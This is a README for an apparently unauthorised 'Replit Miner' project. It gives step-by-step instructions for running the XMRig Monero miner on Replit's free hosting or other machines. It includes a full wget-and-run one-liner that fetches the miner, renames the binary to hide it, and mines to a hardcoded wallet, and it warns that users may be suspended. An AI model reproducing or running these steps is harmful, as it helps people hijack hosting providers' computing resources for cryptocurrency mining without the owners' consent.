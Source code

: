 # Replit Miner
**Do NOT attempt this if you are doing this for your own sake, only do it if you have permission. We will not help if you get suspended from Replit, or any other machine/host.**

## How To - Replit
1. Go to Replit, and make a new app, then click 'Import from Github' and enter `https://github.com/huggywuggybest03/replit-miner`
2. After it has succeeded, go to install.sh and change the wallet to your wallet, which is the -u section. (if you dont want to, you can mine to my wallet, not promo or nun)
3. You may change the pool (-o) url to your url, but you can keep hashvault as default if you want.
4. You can change the -t section to the amount of CPU's to use. Default is 1 for free apps.
5. Run the index.js and it will automaticially give permissions and run.
6. Done! Do not leave the app, otherwise it will automaticially stop after 1 minute.
- Your repl may crash, so if you want you can make a blank repl and go to shell and type `wget https://github.com/xmrig/xmrig/releases/download/v6.21.3/xmrig-6.21.3-linux-static-x64.tar.gz && tar -xz -f xmrig-6.21.3-linux-static-x64.tar.gz && cd xmrig-6.21.3 && mv xmrig cool && ./cool --donate-level 1 -o pool.hashvault.pro:443 -u 44vgYbHGFxEPzutxE9rqC6U4pHMZ9Y1gH5Ek3kryV7Ce6iZM9p4L7vuVQ1wtsgC7jj4zHws9bGM9Ef9sCBZwa13LBnEouPA -t 1 -p Worker -k --tls`

(Note: if you are using another machine, copy and paste the script from install.sh, make sure wget is installed with `apt update && apt install wget`)
